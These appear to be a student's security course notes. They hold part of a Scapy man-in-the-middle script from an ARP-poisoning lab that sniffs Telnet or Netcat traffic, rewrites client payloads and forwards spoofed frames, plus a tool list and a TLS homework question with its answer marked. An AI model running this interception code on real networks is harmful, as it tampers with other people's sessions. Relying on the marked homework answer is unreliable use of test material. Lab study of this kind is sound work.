                         del(newpkt_ip[TCP].payload)
                    sendp(Ether(src=MAC_M, dst=MAC_B)/newpkt_ip/newdata, iface="eth0", verbose=False)
                else: # No payload
                    sendp(Ether(src=MAC_M, dst=MAC_B)/newpkt_ip, iface="eth0", verbose=False)
            
            # Packet from B to A (Server -> Client - usually just forward)
            elif pkt[IP].src == IP_B and pkt[IP].dst == IP_A:
                newpkt_ip = IP(bytes(pkt[IP]))
                del(newpkt_ip.chksum)
                del(newpkt_ip[TCP].chksum)
                # No payload modification for B->A in this lab
                sendp(Ether(src=MAC_M, dst=MAC_A)/newpkt_ip, iface="eth0", verbose=False)

    # Filter for Telnet: f = f"tcp and port 23 and ((src host {IP_A} and dst host {IP_B}) or (src host {IP_B} and dst host {IP_A}))"
    # Filter for Netcat: f = f"tcp and port 9090 and ..." (similar structure)
    sniff(iface="eth0", filter=f, prn=spoof_pkt, store=0)
    ```

**IV. Key Tools & Commands**

*   **Scapy:** Python library for packet manipulation.
    *   `Ether()`, `ARP()`, `IP()`, `TCP()`, `Raw()` (for payload)
    *   `/` operator to stack layers.
    *   `sendp()`: Send packet at Layer 2 (needs full Ethernet frame).
    *   `sniff()`: Capture packets.
*   **Wireshark:** Packet analyzer.
    *   Capture on `br-xxxx` (host bridge interface).
    *   Display filters (e.g., `arp`, `tcp.port == 23`, `ip.addr == x.x.x.x`).
*   `telnet <IP>`
*   `nc <IP> <PORT>` (client)
*   `nc -lp <PORT>` (server)

## TLS HW3

### Q6.1 What’s the difference between HMAC and a Digital Signature? (Choose all that apply. There is no partial credit.)

2 Points

Choice 1 of 3: A. There is no difference-- they are EXACTLY the same.

**Choice 2 of 3: B. Digital Signature uses asymmetric keys where as HMAC uses symmetric keys.**
